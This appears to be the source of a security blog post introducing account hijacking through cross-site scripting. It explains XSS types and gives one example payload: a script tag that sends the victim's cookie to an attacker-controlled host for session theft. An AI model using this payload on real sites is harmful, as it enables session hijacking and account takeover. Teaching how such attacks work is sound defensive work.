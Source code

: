 ```yaml
---
layout: post
title: Hijacking account via XSS, Apr7
description: "A simple proof of concept on how to steal account via XSS vulnerability"
tags: [xss, hacking, exploitation]
comments: true
---
```

[Cross-Site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

### Sniff like a dog

Before initiating a pentest, I normally play with the application first. I use different tools to watch the traffic. I take down notes of things that I'm very interested in such as changing password, updating profile, uploading attachments, etc. You have to examine/dissect the request that was generated. You have to think harder, generate the flow on your head by asking yourself with "what if I bypass this/that". You have to be creative! This is what sets hackers apart from script kiddies.

### Let's start the exploitation

There are multiple ways we can test an application for vulnerabilities. I'll be demonstrating persistent XSS attack. XSS is a vulnerability that is 98% caused by developer's carelessness. XSS vulnerability is actually very easy to fix. However, the cause it brings can be small to massive.

#### What is Persistent XSS attack
There are 3 different types of Cross Site Scripting attack, reflected, persistent and DOM-based. Reflected attack is normally accomplished with social engineering such as sending an email to the victim with a link that contains a script on the url. When this link is clicked by the victim, part of the HTML page is modified. When the HTML page gets loaded, the script is executed without the knowledge of the victim. An example attack would be including the code

{% highlight html %}
 <script>document.location.href="http://attacker_ip_address/script.php?c=document.cookie"</script>
{% endhighlight %}

What this will do is that it will retrieve the document.cookie which might contain the session id thereby allowing the attacker to gain more information about the victim's existing connection. It will initiate a call back to the attacker's server ip address containing the cookies. On the attacker's side, he might have a logger that stores all the values of c(see query string above).
